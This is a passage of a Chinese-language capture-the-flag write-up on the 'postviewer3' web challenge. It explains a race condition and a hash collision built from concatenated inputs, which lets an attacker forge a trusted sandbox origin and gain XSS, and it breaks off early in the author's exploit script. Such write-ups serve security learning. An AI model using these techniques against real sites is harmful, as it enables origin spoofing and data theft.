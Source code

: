 ``` js

window.addEventListener('hashchange', processHash, true);
```

中間有一個 `await sleep(0)` 讓後續的操作變成非同步，所以理論上可以 race condition 一下，讓這一段拿到的 hash 是 `#0` 然後變成 flag file id，但之後跑到 `previewFile` 時，`location.hash` 變成 `#`。

不過後來我想了想，這樣也是沒用的，因為 trust origin 還是題目的 domain，就算知道了 hash，我也沒辦法做任何事。

但過不久我重新看了一次產生 hash 的程式碼：

``` js
async function calculateHash(...strings) {
  const encoder = new TextEncoder();
  const string = strings.join("");
  const hash = await crypto.subtle.digest("SHA-256", encoder.encode(string));
  return arrayToBase36(new Uint8Array(hash)).padStart(50, "0").slice(0, 50);
}
```

這邊就只是將傳入的四個參數拼在一起而已，因此以題目來說，每個參數如下：

```
body: BODY
product: postviewer
origin: https://postviewer3-web.2024.ctfcompetition.com
href: https://postviewer3-web.2024.ctfcompetition.com/#file-sha1-hash
```

拼出來的結果是：

```
BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#file-sha1-hash
```

假如我們真的可以控制 hash 的話，可以變成這樣：

```
BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#postviewerhttps://example.com
```

如此一來，底下的輸出就會算出一個相同的結果：

```
body: BODYpostviewer{CHALL_ORIGIN}{CHALL_ORIGIN}/#
product: postviewer
origin: https://example.com
href: ''
```

此時的 origin 已經變成了我們自己的 domain，因此就可以偽造出一個相同 hash 的 sandbox domain，並且 trust origin 是我們自己。

拿到 sandbox XSS 之後就簡單了，我原本的想法是既然都是 same-origin 了，就直接蓋掉 `onmessage` 或是 `Blob`，攔截一下輸入就好，畢竟最後含有 flag 的 iframe 沒辦法存取，因為 origin 會是 null。

總之呢，想法大致如上，不過最困難的就是到底要怎麼觸發這個 race condition，我自己的 exploit 如下：

``` html
<body>
  <div id=log></div>
</body>
<script>
  const sleep = ms => new Promise(r => setTimeout(r, ms))
  const callbackUrl = window.origin
  const evaluatorHtml = `{NOT_IMPORTANT}`;

  function arrayToBase36(arr) {
    return arr
      .reduce((a, b) => BigInt(256) * a + BigInt(b), BigInt(0))
      .toString(36);
  }

```
